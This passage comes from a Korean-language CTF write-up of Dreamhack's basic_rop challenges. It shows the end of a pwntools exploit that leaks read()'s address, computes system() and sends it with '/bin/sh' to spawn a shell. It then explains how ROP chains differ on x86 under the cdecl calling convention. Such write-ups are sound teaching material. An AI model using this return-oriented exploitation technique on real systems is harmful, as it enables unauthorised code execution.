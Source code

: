 ```python

p.send(payload)
p.recvn(0x40) # source code 내의 write문의 출력값 넘기기
read = u64(p.recvn(6) + b"\x00"*2) # read의 address
print("read", hex(read))

system = read - 0xb1ec0
p.send(p64(system) + b"/bin/sh\x00")

p.interactive()
```

## Wargame: [basic_rop_x86](https://dreamhack.io/wargame/challenges/30/)

문제의 source code는 basic_rop_x64와 동일하지만, **x86 architecture을 대상으로 한다는 점**이 다르다. 풀이의 큰 흐름 역시 거의 같기 때문에 x86 architecture의 특성 때문에 달라지는 점만을 서술하겠다.

### cdecl

*Reference: [https://velog.io/@seulifer/x86-cdecl](https://velog.io/@seulifer/x86-cdecl), [https://doongdangdoongdangdong.tistory.com/20](https://doongdangdoongdangdong.tistory.com/20), [https://kaspyx.tistory.com/100](https://kaspyx.tistory.com/100)*

**cdecl**은 x86 architecture의 calling convention이다. **cdecl에서는 함수의 argument를 caller가 stack을 통해 전달하며, return 값은 eax를 통해 받는다.** 구체적인 stack frame의 구조는 아래와 같다.

<p align="center">
	<a href="/assets/images/TIL220722/Untitled (2).png">
	<img src="/assets/images/TIL220722/Untitled (2).png" width="300">
    </a>
</p>
따라서 ROP 기법을 사용할 땐 기존의 방식대로 `pop rdi; ret`과 같은 code gadget을 찾아 register에 값을 넣어줄 필요는 없지만, **stack에 직접 argument를 집어넣어줘야 한다**. 또 해당 함수를 실행한 이후에는 stack에 넣어 두었던 argument의 개수만큼 esp를 증가시켜줘야 하므로 **argument의 개수만큼 `pop`을 실행하고 `ret`하는 code gadget을 다음 function의 address 부분에 삽입**해야 한다. (`pop`의 operand의 값은 중요하지 않다.)

